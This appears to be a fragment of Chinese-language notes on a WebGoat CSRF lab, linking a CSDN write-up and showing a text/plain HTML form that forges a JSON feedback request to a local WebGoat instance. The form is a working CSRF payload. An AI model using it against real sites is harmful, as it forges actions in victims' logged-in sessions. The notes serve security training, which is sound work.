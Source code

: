 但是应该让它自动加上cookie

> 问gpt问不出来
> 去搜索了一下题解
> https://blog.csdn.net/seanyang_/article/details/134277976?spm=1001.2014.3001.5502

![](../../images/Pasted%20image%2020241213144341.png)


```html
<form enctype="text/plain" action="http://192.168.137.42:8080/WebGoat/csrf/feedback/message" METHOD="POST">
	<input type="hidden" name='{"name": "Testf", "email": "teddst1233@163.com", "subject": "service", "message":"' value='dsaffd"}'>
	<button type="submit">feedback-message2</button>  
</form>
```

构造出的包是
![](../../images/Pasted%20image%2020241213144718.png)
